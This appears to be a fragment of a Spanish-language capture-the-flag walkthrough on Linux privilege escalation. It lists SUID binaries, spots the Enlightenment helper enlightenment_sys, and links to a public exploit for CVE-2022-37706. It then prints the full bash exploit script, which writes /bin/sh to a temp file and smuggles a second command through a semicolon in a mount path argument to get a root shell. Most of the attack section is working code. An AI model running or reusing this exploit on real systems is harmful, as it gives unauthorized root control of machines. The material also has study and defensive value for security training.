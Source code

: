 ```
     2245     68 -rwsr-xr-x   1 root     root          67816 Apr  9 08:34 /usr/bin/su
     5334     84 -rwsr-xr-x   1 root     root          85064 Feb  6 04:49 /usr/bin/chfn
      231     40 -rwsr-xr-x   1 root     root          39144 Apr  9 08:34 /usr/bin/umount
     5337     88 -rwsr-xr-x   1 root     root          88464 Feb  6 04:49 /usr/bin/gpasswd
     5338     68 -rwsr-xr-x   1 root     root          68208 Feb  6 04:49 /usr/bin/passwd
      375     40 -rwsr-xr-x   1 root     root          39144 Mar  7  2020 /usr/bin/fusermount
     5335     52 -rwsr-xr-x   1 root     root          53040 Feb  6 04:49 /usr/bin/chsh
      484     16 -rwsr-xr-x   1 root     root          14728 Oct 27  2023 /usr/bin/vmware-user-suid-wrapper
```

Vemos estas 3 lineas que son interesantes...

```
17633     28 -rwsr-xr-x   1 root     root        26944 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
    17628     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
    17627     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
```

Por lo que se ve utiliza `enlightenment` y si buscamos un exploit del mismo lo encontramos en GitHub...

URL = https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit

Nos lo descargamos y nos lo pasamos a la maquina victima...

```shell
nano exploit.sh
```

> exploit.sh

```bash
#!/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```
